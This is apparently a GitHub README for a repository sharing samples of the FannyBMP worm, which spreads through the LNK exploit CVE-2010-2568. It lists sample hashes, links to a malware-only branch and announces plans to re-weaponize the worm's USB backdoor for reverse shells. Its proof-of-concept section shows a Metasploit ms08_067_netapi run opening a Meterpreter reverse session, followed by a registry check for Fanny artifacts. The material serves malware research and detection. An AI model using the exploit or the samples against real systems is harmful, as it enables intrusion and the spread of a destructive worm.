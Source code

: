 # FannyBMP or DementiaWheel
- Related to `Brutal_Kangaroo` 

# :warning:
```
(hopefully final `NOTICE`:)


As writing really isn't my front; I decided to make (yet another) Branch.. called "only_malware" which ONLY CONTAINS THE FANNY.BMP MALWARE.

```
# please find it [here **only_malware**](https://github.com/loneicewolf/fanny.bmp/tree/only_malware)


# rootkit quick overview
![image](https://github.com/loneicewolf/fanny.bmp/assets/68499986/1839659e-adf7-4b3b-96e7-4f1b382f3a70)
- Q: `why did I use the 'runas' dialog to demonstrate the rootkit?`
- A: `cuz I wanted to show it does work on some text-inputs, as well`

And another screenshot:

![image](https://github.com/loneicewolf/fanny.bmp/assets/68499986/a85bff96-74f2-44cf-8c1e-621b87d6adf7)


***


Note! the technical report I wrote has a few* painfully-obvious flaws  (like being written in a hurry, so it has some* grammar errors)
the report will be re-written and re-publicized as the same with a new version number. 
This new version, will be much better in general. And more Related to the *actual research I did on the malware* rather than the malware in general.

I have quite little time on my hands now, so it will be delayd (this is just how I am).


### Points

Instead of having all the text (literally, **all** text) shown all at once, I decided to make `clickable` points, 
(if clicking doesn't work, please refer to the `raw` version of the readme or check it on another device)


`the most important things related to this repo is (most notably) My contribution(this repo) to the Rapid7 project(Metasploit);`
- https://blog.rapid7.com/2021/01/29/metasploit-wrap-up-96/
- https://www.rapid7.com/db/modules/post/windows/gather/forensics/fanny_bmp_check/
- https://github.com/rapid7/metasploit-framework/tree/master/documentation/modules/post/windows/gather/forensics
- https://github.com/rapid7/metasploit-framework/tree/master/modules/post/windows/gather/forensics/




<details>
<summary>  Basic Info </summary>

```txt
Name
            FannyBMP or as the codename, DementiaWheel.

Description
             FannyBMP or as the codename, DementiaWheel
             Is a worm that exploited zero day vulns
             (more specifically, the LNK Exploit CVE-2010-2568).
             Which allowed it to spread (via usb) even if USB Autorun was turned off.
             This is the same(although somewhat more obfuscated) exploit that was used in StuxNet.


References
- https://securelist.com/a-fanny-equation-i-am-your-father-stuxnet/68787


CVE
 - 2010-2568

```

</details>



<details>
<summary> POC's (Proof Of Concepts)  </summary>

### YouTube infection run
![image](https://user-images.githubusercontent.com/68499986/204053660-bc331326-baae-4b79-b2e8-f9509d98c883.png)

- https://www.youtube.com/watch?v=Uto_lcD2f38


#### Fanny all files completely provided
includes:

- 
    - __d__.lnk - 148300b4c895bef313bee5eea9f40956510bc1e3878917cdd22baeabefb91179
    - https://www.virustotal.com/gui/file/148300b4c895bef313bee5eea9f40956510bc1e3878917cdd22baeabefb91179/detection

    - __e__.lnk - 276df113d13feaa98602918e09168ee4caadd3b797fdf7fcbe268f5741861bfa
    - https://www.virustotal.com/gui/file/276df113d13feaa98602918e09168ee4caadd3b797fdf7fcbe268f5741861bfa/detection

    - __f__.lnk - 8e1f99b858010fbf664419404a465ae98b51b40acc94231609367beca8e1652d
    - https://www.virustotal.com/gui/file/8e1f99b858010fbf664419404a465ae98b51b40acc94231609367beca8e1652d/detection

    - __g__.lnk - 6735dfcf86a0268e880429ebcc0062baa5515eaba69fd45cf4ea42b23f8e5809
    - https://www.virustotal.com/gui/file/6735dfcf86a0268e880429ebcc0062baa5515eaba69fd45cf4ea42b23f8e5809/detection

    - __h__.lnk - be1fd5a117142d2a80b6798058f66a0abea796986dae29e7902e6b0fe461a605
    - https://www.virustotal.com/gui/file/be1fd5a117142d2a80b6798058f66a0abea796986dae29e7902e6b0fe461a605/detection

    - __i__.lnk - 86f24cd880f445890c54883a40947fe103cceb92d5d3b17e7a9cf8143cdd04c9
    - https://www.virustotal.com/gui/file/86f24cd880f445890c54883a40947fe103cceb92d5d3b17e7a9cf8143cdd04c9/detection

    - __j__.lnk - 3696b414d8eaaaea4a9d220226e0e2ed458853eb1546959765aef8ccc0ba37b9
    - https://www.virustotal.com/gui/file/3696b414d8eaaaea4a9d220226e0e2ed458853eb1546959765aef8ccc0ba37b9/detection

    - comhost.dll - 0d9bb9a9e3a6f8836a1ef51862ae1c28f086da3a9006d1c7040fe57ed8c26231 
    - https://www.virustotal.com/gui/file/0d9bb9a9e3a6f8836a1ef51862ae1c28f086da3a9006d1c7040fe57ed8c26231/detection

    - mscorwin.dll - ef3135e462540adfba00234d75c4b21430f5a9037b61e7dc1014c8711ddc0047
    - https://www.virustotal.com/gui/file/ef3135e462540adfba00234d75c4b21430f5a9037b61e7dc1014c8711ddc0047/detection

    - shelldoc.dll - 6eb00b34d1daffa49b2f4c90841705b2c994563bde672bf35eb1c46cdb19a1ed
    - https://www.virustotal.com/gui/file/6eb00b34d1daffa49b2f4c90841705b2c994563bde672bf35eb1c46cdb19a1ed/detection

    - ECELP4.ACM - 787419d07f4bda9bc91072bb8644ed943089ad44f4bb5920bfe452dc111c244d
    - https://www.virustotal.com/gui/file/787419d07f4bda9bc91072bb8644ed943089ad44f4bb5920bfe452dc111c244d/detection

    - fanny.bmp - 0d9bb9a9e3a6f8836a1ef51862ae1c28f086da3a9006d1c7040fe57ed8c26231
    - https://www.virustotal.com/gui/file/0d9bb9a9e3a6f8836a1ef51862ae1c28f086da3a9006d1c7040fe57ed8c26231/detection

    - ~DE1923.tmp  -  c69a9157638e69fb692d827383c3f27e586e0c98989cffdf8bd4c982ad837a4c
    - https://www.virustotal.com/gui/file/c69a9157638e69fb692d827383c3f27e586e0c98989cffdf8bd4c982ad837a4c/detection

    - AGENTCPD.DLL - 1e77ae780e3f6389ffd6eae92887e531bf156943e31302c93be08a57ea90e6dd 
    - https://www.virustotal.com/gui/file/1e77ae780e3f6389ffd6eae92887e531bf156943e31302c93be08a57ea90e6dd/detection

    - dll_installer.dll [will provide soon (this is the inner module of Fanny.BMP)]


</details>




:radioactive: **Still unsorted (sorting it at the moment)** :radioactive:


<details>
<summary> not-done :warning: </summary>

- https://www.youtube.com/watch?v=Uto_lcD2f38



### related:
- [Gauss](Https://github.com/loneicewolf/Gauss-Src)
- [Stars](https://github.com/loneicewolf/Stars-virus)
- [Duqu](https://github.com/loneicewolf/DUQU)
- [FlamER](https://github.com/loneicewolf/flame-sourcecode)

--- please note that documentation(writing) (as below) is **not** my strongest front; so please this will be fuzzy; hopefully readable. -----




## important below
⚠️ this repo has serious issues. (1 major is the lot of Unnec. stuff, like old README (etc), ) **Why?!** *well, when I uploaded this - I did not think this would be interesting for others; so I didn't pay attention to make it "really readable"*

⚠️ which I was wrong about (soo wrong) - which is why I **will change this very soon** as I want this to be as clean as possible;

### therefore - please routinely check the 2nd branch (if possible)
- https://github.com/loneicewolf/fanny.bmp/tree/fresh_2022
- https://github.com/loneicewolf/fanny.bmp/branches

#### as I will upload and make it all very cleanly organized; with screenshots; and everything in one place(or, Hopefully I will be able to at least, make it decently well)



thanks for understanding!
have a good day!


---
### MAJOR update coming soon:
I will (when  I am done with the OSCP Exam, which is very soon! it actually is on 18th Jan! (writing from 2021 25 Dec (Happy Christmas! :) )))
Soon create & upload the following:
 - Recording (From scratch(0%), to 100%) of when Fanny.bmp infects a PLC (although.. It does *not* do anything, or even "infects a PLC" but, it detects PLC's in a kinda-similar way StuXNet did.) (although a virtual one, since I have not *real* access to a nuclear reactor.. For.. well, quite - **obvious reasons.**
 - Recording (again, From 0 to 100%)  of how one can "re-weaponize" Fanny.bmp (or,DementiaWheel as it's codename suggests) the USB-Backdoor to carry commands from & to Metasploit. (This is tested and, let's just say - it works, but needs improvement. (Massive improvements that is)) <- Still working on it.
 - A mini-library written in C (in combination with Lua) to make (the 2 points above ) a **bit** more user-friendly
 -    (JUST so you don't need to be a debugger-professional to understand how to get a reverse shell trough fanny's USB Backdoor for example.)



---




###### For the story Refer to both the article(s) I've been provided below, but also - if you're interested;  read my theory fanny.bmp's and StuXNet's purpose in the ISSUES page. "The Purpose of Fanny.bmp - in relation to StuXNet #7 "

#### Related samples: Agent.btz and  Stuxnet

 - https://github.com/loneicewolf/Stuxnet-Source
 - https://github.com/loneicewolf/Agent.btz


Refs:
 - https://blog.rapid7.com/2021/01/29/metasploit-wrap-up-96/
 - https://www.rapid7.com/db/modules/post/windows/gather/forensics/fanny_bmp_check/
 - https://github.com/rapid7/metasploit-framework/tree/master/documentation/modules/post/windows/gather/forensics
 - https://github.com/rapid7/metasploit-framework/tree/master/modules/post/windows/gather/forensics/


##### [+1] video, demonstrating a Re-Creation of fanny.bmp to display a MessageBox(soon cmd)

#### Note, I have created a new POC video demonstrating fanny.bmp, as well as a bug
 (that I do not think is known? At least probably not to the developers that made fanny.bmp, although this is probably quite expected, that it would hide files using the prefix the rootkit is designed to just "hide").

But the unexpected thing was "to me anyway" that, it crashed explorer (and, the whole XP) while doing this.) This is done by "using"
the rootkit provided in fanny.bmp.

### How to re-create the Crash/bug:
#### watch the video https://www.youtube.com/watch?v=Uto_lcD2f38 (youtube)

If you name a folder/file/shortcut " _ _ e _ _ . l n k " (Note: Explorer will make the file not-displayed when you type __e__) and then, hopefully - it will crash with an error message. Or 2 error messages by the way.


## POC  (Proof Of Concept) Video(s)

-------------------

### The renewed video is here:

https://youtu.be/Uto_lcD2f38

###As well as the video file itself, here:
https://github.com/loneicewolf/fanny.bmp/blob/main/ReNewed(Fannybmp%20Winxp%20Poc)%20(With%20Rootkit%20Demo%20%2B%20Bug%20Crash)%20.mp4.7z

-------------------

The screenshot of the "empty" (not infected by fanny) USB (that, was "experimented" with and  later, as well infected by fanny.bmp) Displaying the files that the rootkit tried to hide, but it crashed explorer.exe with 2 error messages instead.

https://github.com/loneicewolf/fanny.bmp/blob/main/SanUltra%20(Fanny.bmp%20Bug).png


#### 2 Error messages from fanny.bmp  while it's rootkit was in use (and tried to hide a file/directory created by the user, called "__e__.lnk" in this example)

https://github.com/loneicewolf/fanny.bmp/blob/main/2Errors(while%20rootkit%20tried%20to%20hide%20__).png


#### For detection of fanny.bmp infections using MetaSploit,
#### you can now use my metasploit module avail. here: https://github.com/loneicewolf/metasploit_fanny_check_module/blob/main/fanny_bmp_check.rb
#### Documentation for
#### the module avail. here: at the wiki  https://github.com/loneicewolf/fanny.bmp/wiki/Docs

-------------

## POCS



By-OS:

 - [x] Windows XP Pro (SP3)   Screenshot: https://user-images.githubusercontent.com/68499986/102911824-e2678280-447c-11eb-8495-7180a52c7266.png
 - [x] Windows 10 Pro N (x64) Screenshot: https://raw.githubusercontent.com/loneicewolf/fanny.bmp/main/Windows10%20X64%20fanny_bmp_check.png

-------------


All these I thought of earlier providing, since I was one of the people that got this on my USB stick (my USB got infected long long time ago, Years ago now.) - But now - when I looked closer and I saw that some of these isn't even available online (Some of them are, still - like fanny.bmp and maybe some others, and ECELP4.acm) but not any of mscorwin / comhost, etc. (If they are - I would love to hear that! and the source of it. The more sources of same malware - the better. It strengthens the "community" if I can put it that way. And it is easier to find if all material is gathered at one place.
But I thought of providing all of these to malware researchers. As well as for academical purposes.

-------------

##### Note: In the video I provided, I had slight problems with the USB Keyboard. So I wrote "EDUCATIONAK" but meant "EDUCATIONAL". Contact me for any details.

-------------

(Q) Why would you want to upload malware? You're literally providing CyberWeapons!
(A) I believe in Open-Source, and that even though in this scenario, can hopefully help malware researchers provide better protection.

But the major point, is actually - as said above, but adding the following reason:
- to help the feature find these malware and samples. As I think there are very little (if not none) of these **easily** accessible online. (Samples that is)

-------------

### To Detect fanny, refer to this article:
- https://securelist.com/equation-the-death-star-of-malware-galaxy/68750/  (And some the others)  at "Indicators of compromise (“one of each”):"
- https://www.rapid7.com/db/modules/post/windows/gather/forensics/fanny_bmp_check/ To detect it in Registry

And (for "optional" reading) I would suggest this one:
"AiR-ViBeR: Exfiltrating Data from Air-GappedComputers via Covert Surface ViBrAtIoNs." - writeup about Stuxnet,Fanny, Agent.btz (which is really like each others in ways)


### POC:

First, Git clone the fanny_bmp_check.rb from  Metasploit! (Now - always go to metasploit (oficially) to get the fanny.bmp module. To always get the latest version of it. In which I believe is vital when we talk security)

place it into your msf folder, (important, check the following step before placing it) usually located in /root/.msf4/modules/

* make the following folders: (under each other) /post/windows/gather/forensics/ <fanny_bmp_check.rb here>

Start msfconsole

use exploit/windows/smb/ms08_067_netapi

set RHOST and LHOST.

    msf6 exploit(windows/smb/ms08_067_netapi) > run

      [*] Started reverse TCP handler on 192.168.122.1:4444 
      [*] 192.168.122.160:445 - Automatically detecting the target...
      [*] 192.168.122.160:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
      [*] 192.168.122.160:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
      [*] 192.168.122.160:445 - Attempting to trigger the vulnerability...
      [*] Sending stage (175174 bytes) to 192.168.122.160
      [*] Meterpreter session 4 opened (192.168.122.1:4444 -> 192.168.122.160:1043) at 2020-12-22 16:55:02 +0100

meterpreter > run post/windows/gather/forensics/fanny_bmp_check

    [*] Searching registry on WORKSTATION1 for Fanny.bmp artifacts.
    [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\Driver found in registry.
    [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter2 found in registry.
    [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter3 found in registry.
    [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter8 found in registry.
    [*] WORKSTATION1: 4 result(s) found in registry.

------------


</details>
